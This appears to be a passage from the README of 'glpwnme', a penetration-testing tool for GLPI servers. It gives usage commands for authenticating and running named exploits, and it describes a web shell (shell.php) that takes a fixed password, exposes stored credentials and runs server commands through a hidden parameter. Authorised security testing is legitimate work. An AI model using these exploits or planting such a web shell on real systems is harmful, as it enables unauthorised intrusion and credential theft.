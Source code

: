 ## Args details
```bash
# Login with creds
# Auth parameter is used to login with something else than the default (Glpi Internal database --> local-1, domaine.example.com --> ldap-1)
# recover it in the html DOM of the login page.
# Profile is used, if your user has different profiles (Technician and Read-only for instance, and you want to use the other)
python3 glpwnme.py -t <target> -u <username> -p <password> --auth <local-1|ldap-1|...> --profile <Super-Admin|Technician|...>

# Login with a cookie value
python3 glpwnme.py -t <target> --cookie <cookie>

# Login with an api token and recover the cookie
# The cookie is bound to the host:
#   - cookie for http://127.0.0.1 will not be valid for http://localhost
python3 glpwnme.py -t <target> --token <api_token> --dump-cookies # Will login with the api token and give you the cookie value

# Add custom header and go through burp
python3 glpwnme.py -t <target> -H "X-Forwarded-For: 127.0.0.1" "User-Agent: OrangeCyberdefense/1.1" --proxy http://127.0.0.1:8080

# Use an exploit for check
python3 glpwnme.py -t <target> -e <exploit_name> --check

# Use an exploit for run or clean, with parameter
python3 glpwnme.py -t <target> -e <exploit_name> <--run|--clean> -O 'key=value' 'key2=value'

# Get information about an exploit
python3 glpwnme.py -t <target> -e <exploit_name> --infos
```

## Webshell
On **GLPI** the passwords are encrypted with a random secret key. The way the key is handle has changed over the versions of GLPI.
Moreover the encrypted passwords are stored in the database. A provided file **_shell.php_** is here to help you get those
damn passwords easily. Just access it using the password *'?passwd=P@ssw0rd123'* and you will see the password in use. Add
the option *'?passwd=P@ssw0rd123&_hidden_cmd=whoami'*, and you will execute the ```whoami``` command on the server. This might give you enough flexibility to recover *important credentials* fastly, and achieve **rev shell** if needed.

## Improvements
GLPI Version is shown for logged in user, it would be great to add an observer / hook, that detect if we are logged in and if the version has been found. In this case, retrieve the version from the DOM.
